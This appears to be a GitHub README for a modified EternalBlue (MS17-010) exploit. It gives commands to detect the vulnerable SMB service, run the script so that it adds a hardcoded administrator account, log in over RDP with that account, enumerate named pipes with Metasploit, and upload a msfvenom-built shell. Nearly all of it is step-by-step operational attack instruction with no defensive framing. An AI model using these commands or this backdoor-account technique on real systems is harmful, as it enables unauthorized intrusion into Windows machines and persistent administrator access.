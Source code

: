# EternalBlue
I have done some changes to the https://raw.githubusercontent.com/worawit/MS17-010/master/zzz_exploit.py developed by sleepya. This script create a new user and add the user to administrator group

Detect the vulnerability
nmap --script smb-vuln-ms17-010 -p445 <target_ip>

## eternalblue_user_create.py

How to run the exploit
python exploit.py <target_ip> <pipe_name>
once the user is created you can logged in to the system using rdesktop

 user    : John,
 password: fadf24as

rdesktop -u John -p fadf24as <target_ip>

### How to find the pipe

msfconsole
```
#use auxiliary/scanner/smb/pipe_auditor
#set rhosts <target_ip>
#run
```

Result
```
Pipes: \netlogon, \lsarpc, \samr, \browser, \atsvc, \epmapper, \eventlog, \InitShutdown, \lsass, \ntsvcs, \router, \scerpc, \srvsvc, \tapsrv, \wkssvc
```

## eternalblue_shell_upload.py

replace /root/Desktop/shell.exe with your local shell path.

shell script can be create using msfvenom
